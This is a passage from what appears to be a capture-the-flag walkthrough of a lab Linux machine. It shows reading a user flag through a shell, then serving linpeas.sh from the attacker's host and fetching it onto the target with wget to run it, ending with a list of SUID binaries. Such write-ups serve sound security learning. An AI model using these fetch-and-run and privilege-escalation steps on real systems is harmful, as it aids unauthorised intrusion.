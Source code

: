 ```
service
user
sh-3.2$ ls /home/makis
user.txt
sh-3.2$ cat /home/makis/user.txt
3[...SNIP...]0
```
## Privilege escalation
I will run linpeas.sh to check if a vulnerability could help to escalate to root. First, I will run a Python HTTP server on a folder containing linpeas.sh:
```
$ls
linpeas.sh
$sudo python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```
Then, I can download it from the machine:
```
sh-3.2$ cd /tmp
sh-3.2$ wget http://10.10.14.86:8080/linpeas.sh
--13:09:21--  http://10.10.14.86:8080/linpeas.sh
           => `linpeas.sh'
Connecting to 10.10.14.86:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 848,400 (829K) [text/x-sh]

    0K .......... .......... .......... .......... ..........  6%  890.57 KB/s
   50K .......... .......... .......... .......... .......... 12%    2.52 MB/s
  100K .......... .......... .......... .......... .......... 18%    2.70 MB/s
  150K .......... .......... .......... .......... .......... 24%    3.94 MB/s
  200K .......... .......... .......... .......... .......... 30%    5.28 MB/s
  250K .......... .......... .......... .......... .......... 36%    4.21 MB/s
  300K .......... .......... .......... .......... .......... 42%   12.15 MB/s
  350K .......... .......... .......... .......... .......... 48%    8.89 MB/s
  400K .......... .......... .......... .......... .......... 54%    7.87 MB/s
  450K .......... .......... .......... .......... .......... 60%    5.54 MB/s
  500K .......... .......... .......... .......... .......... 66%    9.94 MB/s
  550K .......... .......... .......... .......... .......... 72%    6.69 MB/s
  600K .......... .......... .......... .......... .......... 78%    5.82 MB/s
  650K .......... .......... .......... .......... .......... 84%    9.86 MB/s
  700K .......... .......... .......... .......... .......... 90%    5.88 MB/s
  750K .......... .......... .......... .......... .......... 96%    7.16 MB/s
  800K .......... .......... ........                        100%    8.79 MB/s

13:09:21 (4.14 MB/s) - `linpeas.sh' saved [848400/848400]

sh-3.2$ chmod +x linpeas.sh
```
I can now run it with the user daemon:
```
sh-3.2$ ./linpeas.sh
```
Here is what I found interesting:
```
                      ╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════
                      ╚════════════════════════════════════╝
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
-rwsr-xr-x 1 root root 63K Apr 14  2008 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-- 1 root fuse 20K Feb 26  2008 /bin/fusermount
-rwsr-xr-x 1 root root 25K Apr  2  2008 /bin/su
```